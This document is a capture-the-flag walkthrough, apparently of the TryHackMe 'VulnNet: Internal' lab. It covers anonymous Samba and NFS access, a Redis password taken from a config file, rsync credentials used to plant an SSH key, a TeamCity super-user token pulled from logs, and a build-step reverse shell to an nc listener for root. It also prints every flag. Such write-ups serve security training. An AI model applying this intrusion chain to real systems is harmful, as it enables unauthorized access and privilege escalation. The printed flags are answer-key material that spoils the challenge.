



# VulnNet: Internal

VulnNet Entertainment learns from its mistakes, and now they have something new for you...

VulnNet Entertainment is a company that learns from its mistakes. They quickly realized that they can't make a properly secured web application so they gave up on that idea. Instead, they decided to set up internal services for business purposes. As usual, you're tasked to perform a penetration test of their network and report your findings.

* Difficulty: Easy/Medium
* Operating System: Linux

This machine was designed to be quite the opposite of the previous machines in this series and it focuses on internal services. It's supposed to show you how you can retrieve interesting information and use it to gain system access. Report your findings by submitting the correct flags.

Note: It might take 3-5 minutes for all the services to boot.

* Author: TheCyb3rW0lf
* Discord: TheCyb3rW0lf#8594

Icon made by Freepik from www.flaticon.com

# What is the services flag? (services.txt)

*Hint: It's stored inside one of the available services.*

## Nmap scan

Nmap reveals several open ports:

~~~
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp   open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      35973/tcp   mountd
|   100005  1,2,3      50743/udp   mountd
|   100005  1,2,3      50821/tcp6  mountd
|   100005  1,2,3      60228/udp6  mountd
|   100021  1,3,4      33804/udp6  nlockmgr
|   100021  1,3,4      35968/udp   nlockmgr
|   100021  1,3,4      38965/tcp6  nlockmgr
|   100021  1,3,4      44305/tcp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp   open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp   open     rsync       (protocol version 31)
2049/tcp  open     nfs_acl     3 (RPC #100227)
6379/tcp  open     redis       Redis key-value store
9090/tcp  filtered zeus-admin
35973/tcp open     mountd      1-3 (RPC #100005)
39613/tcp open     mountd      1-3 (RPC #100005)
42041/tcp open     java-rmi    Java RMI
44305/tcp open     nlockmgr    1-4 (RPC #100021)
49833/tcp open     mountd      1-3 (RPC #100005)
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-05-26T20:17:39+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-26T18:17:39
|_  start_date: N/A
~~~

## Samba

Listing the Samba shares reveals a `shares` network share:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal]
└─$ smbclient -L 10.10.190.83                              
Enter WORKGROUP\kali's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	shares          Disk      VulnNet Business Shares
	IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
~~~

We can access it without authentication, and read the content of the `services.txt` file which contains the flag:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal]
└─$ smbclient //10.10.190.83/shares
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Feb  2 10:20:09 2021
  ..                                  D        0  Tue Feb  2 10:28:11 2021
  temp                                D        0  Sat Feb  6 12:45:10 2021
  data                                D        0  Tue Feb  2 10:27:33 2021

		11309648 blocks of size 1024. 3275768 blocks available
smb: \> cd temp
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 12:45:10 2021
  ..                                  D        0  Tue Feb  2 10:20:09 2021
  services.txt                        N       38  Sat Feb  6 12:45:09 2021

		11309648 blocks of size 1024. 3275768 blocks available
smb: \temp\> get services.txt -
THM{0a09d51e488f5fa105d8d866a497440a}
getting file \temp\services.txt of size 38 as - (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
~~~

Services flag: `THM{0a09d51e488f5fa105d8d866a497440a}`

# What is the internal flag? ("internal flag")

*Hint: It's stored inside a database of one of the services.*

## NFS

The Nmap scan revealed a NFS share. We can connect without authentication:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ mkdir tmp/

┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ sudo mount -t nfs 10.10.190.83: tmp     
                                                                                                                     
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ tree tmp             
tmp
└── opt
    └── conf
        ├── hp
        │   └── hplip.conf
        ├── init
        │   ├── anacron.conf
        │   ├── lightdm.conf
        │   └── whoopsie.conf
        ├── opt
        ├── profile.d
        │   ├── bash_completion.sh
        │   ├── cedilla-portuguese.sh
        │   ├── input-method-config.sh
        │   └── vte-2.91.sh
        ├── redis
        │   └── redis.conf
        ├── vim
        │   ├── vimrc
        │   └── vimrc.tiny
        └── wildmidi
            └── wildmidi.cfg
~~~

There is an interesting `redis.conf` configuration file. It contains the password to the Redis server:

~~~
┌──(kali㉿kali)-[/data/…/files/opt/conf/redis]
└─$ grep -Ev "^#|^$" redis.conf
rename-command FLUSHDB ""
rename-command FLUSHALL ""
bind 127.0.0.1 ::1
protected-mode yes
port 6379
tcp-backlog 511
timeout 0
tcp-keepalive 300
daemonize yes
supervised no
pidfile /var/run/redis/redis-server.pid
loglevel notice
logfile /var/log/redis/redis-server.log
databases 16
always-show-logo yes
save 900 1
save 300 10
save 60 10000
stop-writes-on-bgsave-error yes
rdbcompression yes
rdbchecksum yes
dbfilename dump.rdb
dir /var/lib/redis
slave-serve-stale-data yes
requirepass "B65Hx562F@ggAZ@F" <-------------------- password
slave-read-only yes
repl-diskless-sync no
repl-diskless-sync-delay 5
repl-disable-tcp-nodelay no
slave-priority 100
lazyfree-lazy-eviction no
lazyfree-lazy-expire no
lazyfree-lazy-server-del no
slave-lazy-flush no
appendonly no
appendfilename "appendonly.aof"
appendfsync everysec
no-appendfsync-on-rewrite no
auto-aof-rewrite-percentage 100
auto-aof-rewrite-min-size 64mb
aof-load-truncated yes
aof-use-rdb-preamble no
lua-time-limit 5000
slowlog-log-slower-than 10000
slowlog-max-len 128
latency-monitor-threshold 0
notify-keyspace-events ""
hash-max-ziplist-entries 512
hash-max-ziplist-value 64
list-max-ziplist-size -2
list-compress-depth 0
set-max-intset-entries 512
zset-max-ziplist-entries 128
zset-max-ziplist-value 64
hll-sparse-max-bytes 3000
activerehashing yes
client-output-buffer-limit normal 0 0 0
client-output-buffer-limit slave 256mb 64mb 60
client-output-buffer-limit pubsub 32mb 8mb 60
hz 10
aof-rewrite-incremental-fsync yes
~~~

## Redis

Let's connect to the Redis server using the password found just above:

~~~
┌──(kali㉿kali)-[/data/…/files/opt/conf/redis]
└─$ redis-cli -h 10.10.190.83 -a "B65Hx562F@ggAZ@F"
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.190.83:6379> ping
PONG
~~~

We can list the `KEYS`. The internal flag is found under the `internal flag` key:

~~~
10.10.190.83:6379> KEYS *
1) "tmp"
2) "marketlist"
3) "authlist"
4) "internal flag"
5) "int"
10.10.190.83:6379> 
10.10.190.83:6379> KEYS "internal flag"
1) "internal flag"
10.10.190.83:6379> GET "internal flag"
"THM{ff8e518addbbddb74531a724236a8221}"
~~~

Internal flag: `THM{ff8e518addbbddb74531a724236a8221}`

# What is the user flag? (user.txt)

## Redis

Still connected to the Redis server, we find a base64 encoded string under the `authlist` object:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ redis-cli -h 10.10.190.83 -a "B65Hx562F@ggAZ@F"                       
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.190.83:6379> KEYS *
1) "internal flag"
2) "authlist"
3) "marketlist"
4) "int"
5) "tmp"
10.10.190.83:6379> GET authlist
(error) WRONGTYPE Operation against a key holding the wrong kind of value
10.10.190.83:6379> LRANGE authlist 1 100
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
10.10.190.83:6379> 
~~~

The encoded string revals the rsync connection string as well as the password:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
~~~

## rsync

Connecting to the rsync server reveals a `files` directory:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ rsync --list-only rsync://10.10.190.83                                                                     23 ⨯
files          	Necessary home interaction
~~~

There is a subfolder called `sys-internal` which contains the user flag.

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ rsync --list-only rsync://rsync-connect@10.10.190.83/files
Password: Hcg3HP67@TW@Bc72v
drwxr-xr-x          4,096 2021/02/01 13:51:14 .
drwxr-xr-x          4,096 2021/02/06 13:49:29 sys-internal

┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ rsync --list-only rsync://rsync-connect@10.10.190.83/files/sys-internal/
Password: 
drwxr-xr-x          4,096 2021/02/06 13:49:29 .
-rw-------             61 2021/02/06 13:49:28 .Xauthority
lrwxrwxrwx              9 2021/02/01 14:33:19 .bash_history
-rw-r--r--            220 2021/02/01 13:51:14 .bash_logout
-rw-r--r--          3,771 2021/02/01 13:51:14 .bashrc
-rw-r--r--             26 2021/02/01 13:53:18 .dmrc
-rw-r--r--            807 2021/02/01 13:51:14 .profile
lrwxrwxrwx              9 2021/02/02 15:12:29 .rediscli_history
-rw-r--r--              0 2021/02/01 13:54:03 .sudo_as_admin_successful
-rw-r--r--             14 2018/02/12 20:09:01 .xscreensaver
-rw-------          2,546 2021/02/06 13:49:35 .xsession-errors
-rw-------          2,546 2021/02/06 12:40:13 .xsession-errors.old
-rw-------             38 2021/02/06 12:54:25 user.txt
drwxrwxr-x          4,096 2021/02/02 10:23:00 .cache
drwxrwxr-x          4,096 2021/02/01 13:53:57 .config
drwx------          4,096 2021/02/01 13:53:19 .dbus
drwx------          4,096 2021/02/01 13:53:18 .gnupg
drwxrwxr-x          4,096 2021/02/01 13:53:22 .local
drwx------          4,096 2021/02/01 14:37:15 .mozilla
drwxrwxr-x          4,096 2021/02/06 12:43:14 .ssh
drwx------          4,096 2021/02/02 12:16:16 .thumbnails
drwx------          4,096 2021/02/01 13:53:21 Desktop
drwxr-xr-x          4,096 2021/02/01 13:53:22 Documents
drwxr-xr-x          4,096 2021/02/01 14:46:46 Downloads
drwxr-xr-x          4,096 2021/02/01 13:53:22 Music
drwxr-xr-x          4,096 2021/02/01 13:53:22 Pictures
drwxr-xr-x          4,096 2021/02/01 13:53:22 Public
drwxr-xr-x          4,096 2021/02/01 13:53:22 Templates
drwxr-xr-x          4,096 2021/02/01 13:53:22 Videos
~~~

Let's sync our SSH public key:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ cp ~/.ssh/id_rsa.pub authorized_keys

┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ rsync authorized_keys rsync://rsync-connect@10.10.190.83/files/sys-internal/.ssh                            3 ⨯
Password: 
~~~

## SSH connection / user flag

We can now connect through SSH and get the user flag:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ ssh sys-internal@10.10.190.83        
sys-internal@vulnnet-internal:~$ cat user.txt 
THM{da7c20696831f253e0afaca8b83c07ab}
~~~

# What is the root flag? (root.txt)

There is an interesting `TeamCity` directory at the root of the file system:

~~~
sys-internal@vulnnet-internal:/$ ls -la /
total 533824
drwxr-xr-x  24 root root      4096 Feb  6 12:58 ./
drwxr-xr-x  24 root root      4096 Feb  6 12:58 ../
drwxr-xr-x   2 root root      4096 Feb  2 14:05 bin/
drwxr-xr-x   3 root root      4096 Feb  1 14:02 boot/
drwx------   2 root root      4096 Feb  1 13:41 .cache/
drwxr-xr-x  17 root root      3720 May 27 07:34 dev/
drwxr-xr-x 129 root root     12288 Feb  7 19:21 etc/
drwxr-xr-x   3 root root      4096 Feb  1 13:51 home/
lrwxrwxrwx   1 root root        34 Feb  1 14:01 initrd.img -> boot/initrd.img-4.15.0-135-generic
lrwxrwxrwx   1 root root        33 Feb  1 13:30 initrd.img.old -> boot/initrd.img-4.15.0-20-generic
drwxr-xr-x  18 root root      4096 Feb  1 13:43 lib/
drwxr-xr-x   2 root root      4096 Feb  1 13:28 lib64/
drwx------   2 root root     16384 Feb  1 13:27 lost+found/
drwxr-xr-x   4 root root      4096 Feb  2 10:49 media/
drwxr-xr-x   2 root root      4096 Feb  1 13:27 mnt/
drwxr-xr-x   4 root root      4096 Feb  2 10:28 opt/
dr-xr-xr-x 136 root root         0 May 27 07:33 proc/
drwx------   8 root root      4096 Feb  6 13:32 root/
drwxr-xr-x  27 root root       880 May 27 08:37 run/
drwxr-xr-x   2 root root      4096 Feb  2 14:06 sbin/
drwxr-xr-x   2 root root      4096 Feb  1 13:27 srv/
-rw-------   1 root root 546529280 Feb  1 13:27 swapfile
dr-xr-xr-x  13 root root         0 May 27 08:39 sys/
drwxr-xr-x  12 root root      4096 Feb  6 13:30 TeamCity/ <----------------------- interesting
drwxrwxrwt  11 root root      4096 May 27 08:40 tmp/
drwxr-xr-x  10 root root      4096 Feb  1 13:27 usr/
drwxr-xr-x  13 root root      4096 Feb  1 13:43 var/
lrwxrwxrwx   1 root root        31 Feb  1 14:01 vmlinuz -> boot/vmlinuz-4.15.0-135-generic
lrwxrwxrwx   1 root root        30 Feb  1 13:30 vmlinuz.old -> boot/vmlinuz-4.15.0-20-generic
~~~

Checking the network sockets reveals that a service is running for localhost on port 8111, which is likely used by TeamCity. 

~~~
sys-internal@vulnnet-internal:~$ ss -ltp
State       Recv-Q       Send-Q                    Local Address:Port                       Peer Address:Port       
LISTEN      0            50                              0.0.0.0:microsoft-ds                    0.0.0.0:*          
LISTEN      0            128                             0.0.0.0:39391                           0.0.0.0:*          
LISTEN      0            64                              0.0.0.0:nfs                             0.0.0.0:*          
LISTEN      0            128                             0.0.0.0:33735                           0.0.0.0:*          
LISTEN      0            5                               0.0.0.0:rsync                           0.0.0.0:*          
LISTEN      0            50                              0.0.0.0:netbios-ssn                     0.0.0.0:*          
LISTEN      0            128                             0.0.0.0:6379                            0.0.0.0:*          
LISTEN      0            128                             0.0.0.0:sunrpc                          0.0.0.0:*          
LISTEN      0            64                              0.0.0.0:34769                           0.0.0.0:*          
LISTEN      0            128                       127.0.0.53%lo:domain                          0.0.0.0:*          
LISTEN      0            128                             0.0.0.0:ssh                             0.0.0.0:*          
LISTEN      0            5                             127.0.0.1:ipp                             0.0.0.0:*          
LISTEN      0            128                             0.0.0.0:33145                           0.0.0.0:*          
LISTEN      0            50                   [::ffff:127.0.0.1]:57882                                 *:*          
LISTEN      0            50                                 [::]:microsoft-ds                       [::]:*          
LISTEN      0            64                                 [::]:nfs                                [::]:*          
LISTEN      0            50                                    *:9090                                  *:*          
LISTEN      0            1                    [::ffff:127.0.0.1]:8105                                  *:*          
LISTEN      0            5                                  [::]:rsync                              [::]:*          
LISTEN      0            128                               [::1]:6379                               [::]:*          
LISTEN      0            50                                 [::]:netbios-ssn                        [::]:*          
LISTEN      0            100                  [::ffff:127.0.0.1]:8111                                  *:*  <------------ TeamCity running on localhost on port 8111        
LISTEN      0            128                                [::]:sunrpc                             [::]:*          
LISTEN      0            64                                 [::]:33363                              [::]:*          
LISTEN      0            128                                [::]:40659                              [::]:*          
LISTEN      0            128                                [::]:ssh                                [::]:*          
LISTEN      0            50                                    *:35095                                 *:*          
LISTEN      0            128                                [::]:38359                              [::]:*          
LISTEN      0            5                                 [::1]:ipp                                [::]:*          
LISTEN      0            128                                [::]:46425                              [::]:*    
~~~

Let's use SSH port forwarding to connect to this port:

~~~
$ ssh -L 8111:127.0.0.1:8111 sys-internal@10.10.190.83
~~~

## TeamCity

Now when we connect to http://localhost:8111, we can see the TeamCity login page:

There is a link to connect as super user:

~~~
No System Administrator found. 
Log in as a Super user to create an administrator account. 
~~~

It requires a token. Searching for the `token` string in the logs directory reveals several tokens:

~~~
sys-internal@vulnnet-internal:/TeamCity$ grep -iR token /TeamCity/logs/ 2>/dev/null
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 4174796436262174108 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 4174796436262174108 (use empty username with the token as the password to access the server)
~~~

Using the last token, we can connect as super admin.

## Running commands on TeamCity

TeamCity is run by `root` on the target, which means that executing a reverse shell will grant us root access. After googling how to run commands on TeamCity, I found that it can be done via build steps in a project.

Create a project and go to build steps. Select "Command line" as "Runner type", and put a python3 reverse shell string as the script command:

Now, start a listener (`nc -nlvp 4444`) and click on the `run` button to run the command.

We now have a root shell:

~~~
┌──(kali㉿kali)-[/data/VulnNet_Internal/files]
└─$ nc -nlvp 4444    
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.190.83] 48482
bash: cannot set terminal process group (481): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnnet-internal:/TeamCity/buildAgent/work/2b35ac7e0452d98f# cat /root/root.txt
<uildAgent/work/2b35ac7e0452d98f# cat /root/root.txt              
THM{e8996faea46df09dba5676dd271c60bd}
~~~

Root flag: `THM{e8996faea46df09dba5676dd271c60bd}`
